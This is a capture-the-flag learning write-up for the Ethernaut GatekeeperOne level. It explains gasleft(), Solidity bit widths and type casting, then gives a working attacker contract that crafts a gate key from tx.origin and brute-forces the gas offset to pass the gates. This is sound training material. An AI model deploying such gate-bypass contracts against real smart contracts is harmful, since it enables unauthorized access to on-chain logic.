

### Level 13: GateKeeper One

-   **Date:** 27-04-2026

-   **Difficulty:** Hard

* * * * *

#### Learning:

### `gasleft()`

-   **Purpose:** Returns the remaining gas in the current execution context.

-   **Type:** `uint256`

-   **Usage:** Useful for monitoring execution cost, loop safety, or implementing "gas-based conditions" (like gas gates).

-   **Key Insight:** Every operation executed after calling `gasleft()` reduces the remaining gas, so its value keeps decreasing.

* * * * *

### Data Types and Their Behavior in Solidity

-   Every data type occupies a **fixed number of bits**.

#### Bytes Types:

```
bytes1  = 1 byte  = 8 bits
bytes8  = 8 bytes = 64 bits
bytes32 = 32 bytes = 256 bits

// Note: uint64 and bytes8 both occupy 64 bits

```

#### Unsigned Integers:

```
uint8   // 8 bits   → max 255
uint16  // 16 bits  → max 65,535
uint32  // 32 bits  → max 4,294,967,295
uint64  // 64 bits  → max 18,446,744,073,709,551,615
uint128 // 128 bits
uint256 // 256 bits

```

#### Dynamic Types:

```
bytes
string

```

* * * * *

### Type Casting

#### Lower Casting (Big → Small)

```
uint256 x = 300;        // binary: 100101100
uint8 y = uint8(x);     // binary: 00101100 = 44

```

-   `uint8` can only store 8 bits, so higher bits are truncated.

-   Only the **lowest 8 bits remain**.

-   Equivalent to: `300 % 256 = 44`

* * * * *

#### Upper Casting (Small → Big)

```
uint8 x = 10;
uint256 y = uint256(x);

```

-   Safe conversion --- no data loss.

* * * * *

#### Bytes Casting

```
bytes32 big = 0x11223344556677889900...;
bytes8 small = bytes8(big); // 0x1122334455667788

```

-   Solidity keeps the **leftmost bytes** (most significant bytes) when casting fixed-size byte arrays.

> For fixed `bytes` types, Solidity preserves the **leftmost (most significant) bytes** during downcasting.

* * * * *

### Notes

-   This level combines:

    -   Gas manipulation (`gasleft`)

    -   Bit-level understanding of data types

    -   Careful crafting of keys using type casting

* * * * *

### Solution Contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOneAttacker {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack(uint256 _gasOffset) external {
        bytes8 gateKey = bytes8(
            (uint64(uint160(tx.origin)) & 0x000000000000FFFF)
            | 0x0000000100000000
        );

        uint256 gasToSend = 8191 * 10 + _gasOffset;

        (bool success, ) = target.call{gas: gasToSend}(
            abi.encodeWithSignature("enter(bytes8)", gateKey)
        );

        require(success, "Attack failed");
    }

    function bruteForce() external {
        bytes8 gateKey = bytes8(
            (uint64(uint160(tx.origin)) & 0x000000000000FFFF)
            | 0x0000000100000000
        );

        for (uint256 i = 0; i < 8191; i++) {
            uint256 gasToSend = 8191 * 10 + i;

            (bool success, ) = target.call{gas: gasToSend}(
                abi.encodeWithSignature("enter(bytes8)", gateKey)
            );

            if (success) break; // Found the correct gas offset
        }
    }
}

```

* * * * *

### Small Corrections / Clarifications:

-   "it's magic in solidity" → better phrased as **"how data types behave in Solidity"**

-   "Lowest 8 bits remanin" → corrected to **"lowest 8 bits remain"**

-   Conceptually, your understanding is **correct and solid**, especially around:

    -   Bit masking

    -   Gas alignment (`8191`)

    -   Type casting for key construction

* * * * *

### Learning Image from claude: 
